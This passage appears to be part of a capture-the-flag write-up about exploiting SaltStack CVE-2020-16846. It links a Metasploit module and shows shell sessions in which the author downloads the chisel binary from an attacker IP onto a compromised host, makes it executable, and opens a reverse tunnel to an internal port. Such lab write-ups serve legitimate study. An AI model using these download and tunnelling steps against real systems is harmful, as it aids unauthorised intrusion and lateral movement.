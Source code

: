 > CVE-2020-16846:
>
> Impact: This CVE affects any users running the Salt API. An unauthenticated user with network access to the Salt API can use shell injections to run code on the Salt-API using the SSH client.

* [https://blog.rapid7.com/2020/11/10/saltstack-pre-authenticated-remote-root-cve-2020-16846-and-cve-2020-25592-what-you-need-to-know/](https://blog.rapid7.com/2020/11/10/saltstack-pre-authenticated-remote-root-cve-2020-16846-and-cve-2020-25592-what-you-need-to-know/)
* [https://attackerkb.com/topics/FrF3udya6o/cve-2020-16846-saltstack-unauthenticated-shell-injection](https://attackerkb.com/topics/FrF3udya6o/cve-2020-16846-saltstack-unauthenticated-shell-injection)

links to metasploit module: [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/saltstack\_salt\_api\_cmd\_exec.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/saltstack_salt_api_cmd_exec.rb)

This module would require the port to be open from the outside, so I decided to make an SSH tunnel to give it a target to connect to. Unfortunately, `tomcat`'s user folder was owned by root so I could not create a `.ssh` folder to inject my key. Instead, I uploaded chisel and made a tunnel with that.

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### Getting a shell

```text
┌──(zweilos㉿kali)-[~/chisel]
└─$ ./chisel server -p 9909 --reverse -v
2020/12/13 17:22:16 server: Reverse tunnelling enabled
2020/12/13 17:22:16 server: Fingerprint HYIDJ4oC82ux+xRH1u1L7oA5PXQuW84xghpdsqO69NA=
2020/12/13 17:22:16 server: Listening on http://0.0.0.0:9909
```

First I created a server on my machine listening for reverse connections

```text
tomcat@VirusBucket:/dev/shm$ wget http://10.10.15.98:8099/chisel
--2020-12-13 22:36:24--  http://10.10.15.98:8099/chisel
Connecting to 10.10.15.98:8099... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3291848 (3.1M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   3.14M  1.32MB/s    in 2.4s    

2020-12-13 22:36:26 (1.32 MB/s) - ‘chisel’ saved [3291848/3291848]

tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.15.98:9909 R:8000:127.0.0.1:8000
bash: ./chisel: Permission denied
tomcat@VirusBucket:/dev/shm$ chmod +x chisel 
tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.15.98:9909 R:8000:127.0.0.1:8000
2020/12/13 22:36:41 client: Connecting to ws://10.10.15.98:9909
2020/12/13 22:36:41 client: Connected (Latency 37.60698ms)
```
